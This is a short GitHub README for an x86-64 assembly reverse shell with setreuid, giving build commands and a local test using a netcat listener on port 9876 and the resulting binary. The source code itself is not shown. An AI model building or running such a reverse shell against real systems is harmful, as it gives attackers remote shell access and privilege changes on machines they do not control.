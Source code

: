 # x86_64-Reverse Shell [![version](https://img.shields.io/badge/Version-Alpha-yellow.svg?style=style=flat-square)](https://twitter.com/133_cesium) [![license](https://img.shields.io/badge/License-GPL_3-orange.svg?style=style=flat-square)](https://github.com/C3s1um133/x86_64/blob/master/LICENSE)

Reverse shell + setreuid in ASM Intel 64 bits.
By default the target is 127.0.0.1.

Download the repository then use Makefile to build the project fastly :

```
git clone git@github.com:C3s1um133/x86_64.git
cd x86_64/
Make
```

## To test locally

Listen a socket on localhost :

```
nc -lvp 9876
```

Then we trigger it :

```
./prssr64
```

Foobar.
